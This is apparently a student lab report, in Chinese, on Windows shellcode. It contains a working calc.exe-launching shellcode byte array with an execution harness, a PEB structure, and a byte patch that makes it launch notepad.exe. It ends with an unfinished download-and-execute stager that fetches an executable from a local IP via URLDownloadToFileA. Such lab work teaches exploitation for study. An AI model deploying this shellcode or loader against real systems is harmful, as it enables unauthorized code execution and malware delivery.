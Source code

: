 

# 实验4-shellcode

## 实验要求

* 把上面这个链接中shellcode能够成功运行
* 能从汇编源码编译通过并成功dump
* 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
* 修改shellcode功能为运行记事本程序notepad. exe
* (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

## 实验环境

* windows 10
* Kali 2003
* Visual Studio

## 实验过程

### 1、运行`shellcode`示例

#### 1.1 代码

```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    //DWORD old_protect;
    //VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

#### 1.2 运行结果：成功

![image-20201022140640653](/img/image-20201022140640653.png)

### 2、从汇编源码编译通过并成功dump

通过执行`nasm`和`objdump`命令可以验证。

![image-20201029140022556](/img/image-20201029140022556.png)

![image-20201029140214155](/img/image-20201029140214155.png)

### 3、PEB

#### 3.1 PEB结构

```c++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

#### 3.2

### 4、修改shellcode功能为运行记事本程序notepad. exe

#### 4.1 修改代码：将`calc.exe`修改为`notepad.exe`

`00 00 00 00 65 78 65 2e 63 6c 61 63`->`00 65 78 65 2e 64 61 70 65 74 6f 6e`

![image-20201029145659148](/img/image-20201029145659148.png)

#### 4.2 重新`dump`

![image-20201029150255387](/img/image-20201029150255387.png)

#### 4.3 将结果粘贴到代码里，重新运行

![image-20201029150353246](/img/image-20201029150353246.png)

### 5、修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

#### 5.1 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "192.168.9.3:8000/workspace/shellcode.exe", "a.exe", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```

报错：

![image-20201029212538113](/img/image-20201029212538113.png)

